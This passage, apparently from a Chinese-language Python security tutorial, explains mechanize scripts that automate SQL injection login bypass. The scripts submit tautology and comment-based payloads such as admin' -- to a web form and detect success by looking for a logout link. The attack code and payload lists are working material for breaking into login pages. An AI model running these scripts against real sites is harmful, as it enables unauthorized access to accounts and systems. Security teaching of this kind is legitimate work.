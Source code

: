 ```
    print "All exploits over "
    flag =1
  else :
    p = p+1
```

在`for`循环之前，您应该能够理解程序。`pass_exp`变量表示包含基于重言式的密码攻击的列表。`user1`和`pass1`变量要求用户输入用户名和密码字段，如表单所示。`flag=0`变量使`while`循环继续，`p`变量初始化为`0`。在`while`循环（即`br.select_form(nr=0)`语句）中，选择 HTML 表单一。实际上，此代码基于这样的假设：当您转到登录屏幕时，它将在第一个 HTML 表单中包含登录用户名和密码字段。`br.form[user1] = 'admin'`语句存储用户名；实际上，我用它使代码简单易懂。`br.form[pass1] = pass_exp[p]`语句显示传递给`br.form[pass1]`的`pass_exp`列表的元素。接下来，`for`循环部分将输出转换为字符串格式。我们如何知道密码是否已成功接受？您已经看到，在成功登录到页面后，您将在页面上找到一个注销或注销选项。我在一个名为`list`的列表中存储了注销和注销选项的不同组合。`data1 = data.lower()`语句将所有数据更改为小写。这样可以很容易地在数据中找到注销或注销条款。现在，让我们看看代码：

```
for l in list:
    for match in re.findall(l,data1):
      flag = 1
```

前面的代码将在`data1`中找到`list`的任何值。如果找到匹配项，则`flag`变为`1`；这将打破`while`循环。接下来，`if flag ==1`语句将显示成功的尝试。让我们看下一行代码：

```
elif(p+1 == len(pass_exp)):
    print "All exploits over "
    flag =1
```

前面的代码显示，如果`pass_exp`列表的所有值都已结束，则`while`循环将中断。

现在，让我们检查以下屏幕截图中的代码输出：

![Understanding the SQL injection attack by a Python script](graphics/8583OT_07_04.jpg)

SQL 注入攻击

前面的屏幕截图显示了代码的输出。这是清除程序逻辑的非常基本的代码。现在，我希望您修改代码并生成新的代码，您可以为密码和用户名提供列表值。

我们可以为包含`user_exp = ['admin" --', "admin' --", 'admin" #', "admin' #" ]`的用户名编写不同的代码（`sql_form7.py`，并在密码字段中填写任何内容。此列表背后的逻辑是，在 admin 字符串`–`或`#`进行注释之后，该行的其余部分在 SQL 语句中：

```
import mechanize
import re 
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)

for form in br.forms():
  print form
form = raw_input("Enter the form name " )
br.select_form(name =form)
user_exp = ['admin" --', "admin' --",   'admin" #', "admin' #" ]

user1 = raw_input("Enter the Username ")
pass1 = raw_input("Enter the Password ")

flag =0
p =0
while flag ==0:
  br.select_form(name =form)
  br.form[user1] = user_exp[p]
```